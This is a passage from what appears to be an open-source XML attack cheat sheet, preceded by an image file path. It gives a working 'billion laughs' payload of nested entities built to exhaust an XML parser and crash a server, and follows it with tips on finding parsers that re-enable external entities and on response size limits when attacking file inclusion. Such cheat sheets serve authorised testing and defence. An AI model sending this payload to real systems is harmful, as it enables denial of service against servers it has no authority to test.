 ```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "LOL">
  <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
]>
<root>&lol5;</root>
```

> **Warning**: This attack can cause the server to crash. Only test in controlled environments.

---

## Additional Notes

- **XXE Protections**: Many modern XML parsers have features that disable external entities by default. Look for misconfigured or custom parsers that may re-enable them.
- **Content-Length Limitations**: When attacking file inclusion, large files may be truncated based on response limits, so check server responses for size limits.

---

### License

This cheat sheet is open-sourced and can be used for ethical testing and research. Unauthorized or illegal testing is prohibited.

---
